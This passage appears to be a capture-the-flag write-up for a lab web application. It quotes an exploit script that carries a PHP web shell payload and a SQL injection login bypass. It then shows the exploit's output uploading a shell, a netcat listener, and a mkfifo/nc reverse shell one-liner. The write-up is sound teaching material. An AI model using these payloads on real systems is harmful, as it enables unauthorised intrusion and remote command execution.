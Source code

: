 ```

url = input("TARGET = ")

if not url.startswith('http://') and not url.startswith('https://'):
    url = "http://" + url
if not url.endswith('/'):
    url = url + "/"

payload= "<?php if(isset($_GET['cmd'])){ echo '<pre>'; $cmd = ($_GET['cmd']); system($cmd); echo '</pre>'; die; } ?>"

session = requests.session()

print("Login Bypass")

request_url = url + "/classes/Login.php?f=login"
post_data = {"username": "admin' or '1'='1'#", "password": ""}
bypassUser = session.post(request_url, data=post_data)
data = json.loads(bypassUser.text)
status = data["status"]
.....
```
```
post_data = {"username": "admin' or '1'='1'#", "password": ""}
```
---
### Exploit
Initialy, I tried **admin' or '1'='1'#** but it didn't work and I remembered we can use **--** to indicate a comment in SQL. That means the rest of the query is considered as a comment. For more detail: [Link](https://blog.raw.pm/en/sql-injection-mysql-comment/)

Let's try the combination Username --> **admin' OR 1=1 -- -** and Password --> x

It works and we are connected ^^ 

Now we can try to use the RCE to gain access.
- First: Execute the [Exploit](https://www.exploit-db.com/exploits/50214)
```
python3 50214.py                                        
TARGET = http://10.10.102.98:8080
Login Bypass
shell name TagohessdmjozsxddkzLetta

protecting user

User ID : 1
Firsname : Adminstrator
Lasname : Admin
Username : admin

shell uploading
- OK -
Shell URL : http://10.10.102.98/gallery/uploads/1644781020_TagohessdmjozsxddkzLetta.php?cmd=whoami

```
- Second: Start a listener
```
nc -nlvp 4646
```
- Third: Find the appropriate Reverse Shell. For that, check this [Link](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-openbsd)
```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP] 4646 >/tmp/f
```